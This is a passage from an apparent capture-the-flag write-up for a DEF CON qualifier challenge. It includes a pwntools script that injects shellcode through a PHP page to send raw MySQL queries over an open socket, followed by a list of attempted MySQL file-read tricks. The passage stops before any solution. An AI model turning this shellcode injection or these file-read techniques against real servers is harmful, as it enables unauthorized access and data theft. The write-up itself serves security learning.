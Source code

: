 The `shellme()` is implemented as a php extension. We also have the binary `shellme.so`. Basically it will execute shellcode with [seccomp](https://en.wikipedia.org/wiki/Seccomp) protection.

The description of the challenge mentions the flag is in `/flag`, so we probably need local file inclusion or RCE to read the flag. Because seccomp is enabled when executing the shellcode, we can only read/write the file descriptors that are already opened:

0. stdin
1. stdout
2. stderr
3. `/tmp/.ZendSem.jTNX5u`: it's opend as RW, which seems to be a php temp file.
4. MySQL socket

The only fd that could be used to read loca files will be MySQL. Can we use MySQL to read `/flag`? Let's first run a few queries thorugh this shellcode:

```python
#!/usr/bin/env python2

from pwn import *
import requests
import sys
import string

context(arch='amd64', os='linux')
query = '\x03' + sys.argv[1] if sys.argv[1] else raw_input('> ')
packet = p32(len(query)) + query
stdout = 1
sql_fd = 4
payload  = shellcraft.echo('\n', stdout) # for 200 response
payload += shellcraft.pushstr (packet)
payload += shellcraft.write(sql_fd, 'rsp', len(packet))
payload += shellcraft.read(sql_fd, 'rsp', 10000)
payload += shellcraft.write(stdout, 'rsp', 'rax')
shellcode = asm(payload)
url = "http://shellretql.quals2019.oooverflow.io:9090/cgi-bin/index.php" 
r = requests.post(url, data={'shell': shellcode})

print repr(r.text)
print
printable = set(string.printable) - set('\x0c\x0b')
print ''.join([i if i in printable else ' ' for i in r.text])
```

- The `shellql` db contains nothing interesting
- `show grants;` Permission: select and usage. Almost the same as read-only.
- `select @@version`: 5.7.26-0ubuntu0.18.04.1, latest

Then we tried various approaches to load file in MySQL, but all failed.

- XXE in `LOAD XML`: MySQL doesn't parse external entities.
- `LOAD_FILE()`/ `LOAD DATA INFILE`: We don't have file permission and we need to bypass `secure_file_priv`.
- [Client-side arbitrary file inclusion `LOCAL INFLE`](https://w00tsec.blogspot.com/2018/04/abusing-mysql-local-infile-to-read.html): This aims to read clients files. We don't have a MySQL client here.
- Rather than MySQL query, use other MySQL protocol to open files: [COM_BINLOG_DUMP](https://mariadb.com/kb/en/library/com_binlog_dump/) , but we don't have REPLICATION SLAVE privilege
- `select * from information_schema.processlist`: we can peek other team's queries
- become root via `auth_socket`: nope
- guessing root's password through `COM_CHANGE_USER` command: since the firstblood solved this challenge in 50 minutes, and this is DEFCON Qual, we don't think it's about guessing password 
